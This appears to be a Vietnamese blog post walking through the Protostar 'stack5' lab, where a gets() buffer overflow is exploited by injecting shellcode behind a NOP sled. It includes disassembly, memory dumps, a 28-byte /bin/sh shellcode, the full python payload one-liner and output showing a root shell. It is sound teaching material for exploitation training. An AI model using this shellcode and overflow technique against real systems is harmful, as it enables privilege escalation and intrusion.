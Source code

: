 ```yaml
---
layout: post
title: stack5
---
```

Trong bài trước, chúng ta đã biết cách thay đổi giá trị `eip` của caller để điều hướng chương trình sau khi return từ callee.
Trong bài này, thay vì chỉ điều hướng đến những hàm có sẵn, chúng ta sẽ inject một đoạn mã vào bộ nhớ của chương trình và thực thi đoạn mã này.
Trước tiên, hãy xem source code của chương trình stack5:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
stack5 tương tự stack4. Chương trình này cũng dùng `gets` để nhập giá trị cho `buffer`. Kỹ thuật làm tràn bộ nhớ trong stack4 cũng sẽ được dùng ở đây. Sau đây là asm code của `main` trong stack5.
```asm
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
`buffer` sẽ chiếm bộ nhớ `esp + 0x10` đến `esp + 0x4f`.
Như đã giải thích trong bài trước, theo sau `buffer` là padding, `ebp` và `eip` của caller.
Chúng ta sẽ giả thiết padding là 8 byte.
(điều này đúng với đại đa số các lần chạy thử.)
Như vậy, tổng số byte cần nhập vào là 64 + 8 + 4 + 4 = 80 byte.

Giá trị cần ghi đè vào `eip` của caller sẽ là một địa chỉ trên stack, và là một trong những địa chỉ từ `esp + 0x10` đến `esp + 0x5f` đã lưu 80 byte.
Trong ví dụ đầu tiên sau đây, byte `\xcc` sẽ được dùng để thử nghiệm.
Cụ thể, byte `\xcc` là một lệnh có ý nghĩa như 1 breakpoint.
Khi instruction có mã này được chạy, chương trình sẽ thông báo đã chạm đến breakpoint.
Dùng gdb để kiếm tra bộ nhớ, ta thấy giá trị của `esp` là `0xbffff750`.
Do đó, ta sẽ chọn giá trị mới cho `eip` là từ `0xbffff760` đến `0xbffff79f`.
Sau đây là 1 ví dụ:
```bash
python -c "print '\xcc' * 64 + '\x60\xf7\xff\xbf' * 4" > input.txt
stack5 < input.txt
```
Bộ nhớ sau khi gọi hàm `gets` sẽ như sau. Phân biệt bằng màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">eip của caller</span>.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff790:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff7a0:     0xbffff760      0xbffff760      0xbffff760      <span style="color:orangered">0xbffff760</span>
</pre>
Sau khi được nạp giá trị mới, <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi ngay khi stack5 return.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
<span style="color:orangered">0xbffff760</span>:     0x<span style="color:yellow">cc</span>cccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff770:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff780:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      0xcccccccc
0xbffff7a0:     0xbffff760      0xbffff760      0xbffff760      0xbffff760

<span style="color:orangered">0xbffff760</span>:     <span style="color:yellow">int3</span>
</pre>
```bash
user@protostar:~$ stack5 < input.txt
Trace/breakpoint trap
```

Với 64 byte của `buffer`, chúng ta cần tìm hoặc viết chương trình có kích cỡ trong phạm vi này.
Các chương trình mẫu này có thể được tìm thấy trên internet với từ khóa shellcode.
Bản chất của các shellcode chính là mã máy, mà nếu disassemble ta sẽ được asm code tương tự như asm code của stack5.
Sau đây là đoạn shellcode dài 28 byte dùng để chạy chương trình /bin/dash trong linux:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```
Lưu ý, đoạn chương trình này cần được chạy từ đầu đến cuối.
Nếu biết chính xác vị trí trên bộ nhớ lưu shellcode này, ta sẽ gán địa chỉ đó cho `eip` của caller.
Một kỹ thuật khác cho phép chọn địa chỉ `eip` một cách linh hoạt hơn là dùng chuỗi `nop` (có opcode `0x90`).
Đây là một trong số ít lệnh có thể dùng mà không sợ shellcode không bị lỗi hoặc không thể chạm đến.
Kỹ thuật này có tên là NOP-sled với nguyên lý là sử dụng chuỗi `nop` phía trước shellcode chính, sau đó ghi đè `eip` bằng 1 địa chỉ chứa `nop`.
Khi CPU chạy lênh `nop`, nó sẽ chỉ đơn giản là bỏ qua và chuyển tới lệnh kế tiếp. Việc này sẽ tiếp diễn cho đến CPU chạm tới shellcode.
Nếu không dùng `nop` và địa chỉ mới của `eip` cũng không chạm được tới shellcode, chương trình sẽ báo Illegal instruction và kết thúc.

Với ví dụ trên, ta có 36 byte `nop`, theo sau là 28 byte shellcode. Cụ thể như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
(cat input.txt ; cat) | stack5
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804958c</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482c4</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804958c</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048409</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080483f0</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080483fb</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     0x080483f0      0x00000000      0xbffff828      <span style="color:orangered">0xb7eadc76</span>
</pre>

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff770:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff780:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x6850c031</span>      <span style="color:aqua">0x68732f2f</span>      <span style="color:aqua">0x69622f68</span>
0xbffff790:     <span style="color:aqua">0x89e3896e</span>      <span style="color:aqua">0xb0c289c1</span>      <span style="color:aqua">0x3180cd0b</span>      <span style="color:aqua">0x80cd40c0</span>
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      <span style="color:orangered">0xbffff780</span>
</pre>

Phân biệt <span style="color:orangered">địa chỉ</span> và <span style="color:yellow">lệnh</span> sau sẽ được thực thi ngay khi stack5 return.
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      0x90909090
<span style="color:orangered">0xbffff780</span>:     0x<span style="color:yellow">90</span>909090      0x6850c031      0x68732f2f      0x69622f68
0xbffff790:     0x89e3896e      0xb0c289c1      0x3180cd0b      0x80cd40c0
0xbffff7a0:     0xbffff780      0xbffff780      0xbffff780      0xbffff780
</pre>

Sau đây là memory dưới dạng asm instruction.
Phân biệt <span style="color:orangered">địa chỉ eip mới</span>, <span style="color:yellow">lệnh</span> được thực thi ngay khi stack5 return, và <span style="color:springgreen">shellcode</span>.
<pre class="memory">
<span style="color:orangered">0xbffff780</span>:     <span style="color:yellow">nop</span>
0xbffff781:     nop
0xbffff782:     nop
0xbffff783:     nop
<span style="color:springgreen">0xbffff784</span>:     <span style="color:springgreen">xor    eax,eax</span>
<span style="color:springgreen">0xbffff786</span>:     <span style="color:springgreen">push   eax</span>
<span style="color:springgreen">0xbffff787</span>:     <span style="color:springgreen">push   0x68732f2f</span>
<span style="color:springgreen">0xbffff78c</span>:     <span style="color:springgreen">push   0x6e69622f</span>
<span style="color:springgreen">0xbffff791</span>:     <span style="color:springgreen">mov    ebx,esp</span>
<span style="color:springgreen">0xbffff793</span>:     <span style="color:springgreen">mov    ecx,eax</span>
<span style="color:springgreen">0xbffff795</span>:     <span style="color:springgreen">mov    edx,eax</span>
<span style="color:springgreen">0xbffff797</span>:     <span style="color:springgreen">mov    al,0xb</span>
<span style="color:springgreen">0xbffff799</span>:     <span style="color:springgreen">int    0x80</span>
<span style="color:springgreen">0xbffff79b</span>:     <span style="color:springgreen">xor    eax,eax</span>
<span style="color:springgreen">0xbffff79d</span>:     <span style="color:springgreen">inc    eax</span>
<span style="color:springgreen">0xbffff79e</span>:     <span style="color:springgreen">int    0x80</span>
</pre>
## Ref
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x80\xf7\xff\xbf' * 4" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack5
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
